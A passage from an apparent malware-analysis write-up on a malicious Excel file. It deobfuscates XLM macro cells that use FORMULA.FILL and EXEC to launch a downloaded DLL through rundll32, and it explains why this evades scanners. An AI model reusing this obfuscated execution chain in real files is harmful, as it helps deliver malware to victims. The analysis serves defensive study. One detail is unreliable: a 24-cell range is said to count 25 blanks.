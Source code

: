 Only the first three are valid URLs.
I tried downloading the files through [Tor](https://en.wikipedia.org/wiki/Tor_%28anonymity_network%29)
but didn't have any luck.
The first and third returned 403: Forbidden.
The second refused connections.

This must be some kind of timed attack that cuts off a few days of sending the email.
That way, the attacker can hit some victims but avoid proper detection by malware analyzers.

#### Deobfuscation

AO263 through AO265 use the macro-only function FORMULA.FILL.
It is a niche Excel antipattern; regular functions only read values from other cells, but this one can write to a target cell.

| Sheet | Original Address | Value | Destination Address | Evaluated |
|--|--|--|--|--|
|sheet1|AO263|FORMULA.FILL("..\Kiod.hod",AP263)|AP263|..\Kiod.hod|
|sheet1|AO264|FORMULA.FILL(AL99&"undll32 ",AP264)|AP264|Rundll32 |
|sheet1|AO265|FORMULA.FILL(","&AL101&AL113&AL113&AL99&AL114&"gisterServer",AP265)|AP265|,DllRegisterServer|

This shed some light on the end goal. The payload is a [DLL](https://techterms.com/definition/dll) to be executed with
[rundll32](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/rundll32).
These cells are obfuscated to avoid detection by heuristic virus scanners.
More complex scanners evaluating the worksheet in a sandbox might overlook this because of FORMULA.FILL.

#### Running the Payload :bomb:

X213 through X215 look painful but are just another case of obfuscation.

The chain functions delimited by equal signs will be called from right to left as long as function outputs are equal.
In other words, it is a shorthand for if statements with no else clause.

EXEC is an XLM macro function for starting another program in the background.

[COUNTBLANK]([COUNTBLANK](https://support.microsoft.com/en-us/office/countblank-function-6a92d772-675c-4bee-b346-24af6bd3ac22)), as the name suggests, counts the number of blank cells in a range.
So `COUNTBLANK(V201:V224)` equals 25 since all those cells are blank
and can be safely removed when simplifying things:

| Sheet | Address | Simplified Value | Evaluated |
|--|--|--|--|
|sheet2|X213|EXEC(sheet1!AP264&sheet1!AP263&sheet1!AP265)|EXEC("Rundll32 ..\Kiod.hod,DllRegisterServer")|
|sheet2|X214|EXEC(sheet1!AP264&sheet1!AP263&"1"&sheet1!AP265)|EXEC("Rundll32 ..\Kiod.hod1,DllRegisterServer")|
|sheet2|X215|EXEC(sheet1!AP264&sheet1!AP263&"2"&sheet1!AP265)|EXEC("Rundll32 ..\Kiod.hod2,DllRegisterServer")|

So one or more copies of the attacker's DLLs would run and the Excel worksheet would have served its purpose.
